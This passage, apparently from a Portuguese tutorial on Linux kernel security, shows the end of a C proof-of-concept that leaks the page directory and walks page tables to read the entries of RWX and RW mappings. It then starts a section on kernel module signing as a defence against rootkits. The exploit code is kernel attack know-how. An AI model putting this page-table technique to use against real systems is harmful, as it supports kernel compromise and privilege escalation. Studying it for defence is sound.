 ```C
    	exit(-1);
	}
	printf("lv4: %lx\n", lv4);
    
	unsigned long vaddr_alias = (((lv4 >> 12) & 0x3fffffff) << 12) + pageOffsetBase;
	printf("vaddr alias page: %p\n", (void *)vaddr_alias);
	unsigned long pte_addr = (((lv3 >> 12) & 0x3fffffff) << 12) + pageOffsetBase + index4*8;
	printf("pte address: %p\n", (void *)pte_addr);
    
	return pte_addr;
}

int main (int argc, char **argv){
    
	void *rwx = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
	if (rwx == MAP_FAILED) {
    	perror("mmap");
    	exit(-1);
	}

	void *rw = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
	if (rw == MAP_FAILED) {
    	perror("mmap");
    	exit(-1);
	}

	memset(rwx, 0xcc, 0x1000);
	memset(rw, 0xcc, 0x1000);

	unsigned long pgd = leak_pgd();

	printf("[*] page directory is at: %p\n", (void *)pgd);

	unsigned long rwx_pte = pageTableWalk(pgd, find_synonym(pgd,rwx));
	unsigned long rw_pte = pageTableWalk(pgd, find_synonym(pgd,rw));


	printf("[*] RWX: %lx\n", read64(rwx_pte));
	printf("[*] RW : %lx\n", read64(rw_pte));
	return 0;
}
```



### 4- Assinaturas módulo de Kernels

A Assinatura de Módulos do Kernel (com SHA-512 como padrão) é um mecanismo de segurança integrado ao Linux que garante que apenas módulos do kernel (arquivos .ko) assinados digitalmente por uma chave confiável possam ser carregados. Esse recurso é essencial para evitar a injeção de código malicioso (como rootkits) ou módulos não autorizados no kernel, especialmente em sistemas com Secure Boot habilitado.
